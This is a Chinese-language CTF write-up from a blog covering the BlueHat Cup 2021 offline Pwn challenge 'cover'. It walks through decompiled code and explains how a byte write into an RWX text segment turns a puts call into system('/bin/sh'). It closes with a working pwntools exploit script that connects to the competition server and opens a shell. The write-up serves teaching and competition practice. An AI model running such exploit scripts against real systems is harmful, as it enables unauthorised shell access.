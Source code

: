 ```yaml
---
layout: article
pageview: true
key: bluehat2021-pwn-wp
title: 蓝帽杯2021线下Pwn题WP
author: Ch4rc0al
#cover: /img/cover.jpg
categories:
  - WriteUps
tags:
  - Pwn 
  - CTF
# nolastmod: true
---
```


<!--more-->

## cover

>     Arch:     i386-32-little
>     RELRO:    Partial RELRO
>     Stack:    Canary found
>     NX:       NX enabled
>     PIE:      No PIE (0x8048000)



线下唯一做出来的题

> mprotect(&dword_8048000, 0x8888u, 7);

开头将源程序的0x8048000+0x8888的部分的权限改为了**可读可写可执行**

main 函数内容

```c
buf_1 = 0;
buf_2 = 0;
printf("Try use a bullet to pwn this%s\n", (const char *)&buf_1);
read(0, &buf_1, 5u);
if ( (int)buf_1 > (int)"ou launch the bullet, and... What's your name?%c\n" )
{
  printf("%p is too big...\n", buf_1);
  exit(0);
}
*buf_1 = buf_2;
printf("OK,you launch the bullet, and... What's your name?%c\n", SHIBYTE(v5));
read(0, &buf_1, 0xAu);
puts((const char *)&buf_1);
```

其中`(int)"ou launch the bullet, and... What's your name?%c\n"`的地址为0x8048888，程序会在buf_1输入一个地址，并且将buf_2的内容写入到buf_1地址对应的内存中。

由于是32位程序，我们可以溢出buf_1使buf_2的内容被修改。

由于0x8048000-0x8048888之间的内容包括`text`段，所以我们可以修改程序的`text`段来达到修改程序执行流的效果，我们可以将调用`puts`的内容改为调用`system`来运行`system("/bin/sh")`

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
sh=remote('118.190.62.234',12435)
#sh=process('./pwn')
#08040000-08048888
p1=p32(0x08048792)
print p1
sh.sendafter('Try use a bullet to pwn this\n',p1+p8(0x4a))
sh.sendafter("OK,you launch the bullet, and... What's your name?",'/bin/sh')
sh.interactive()

```



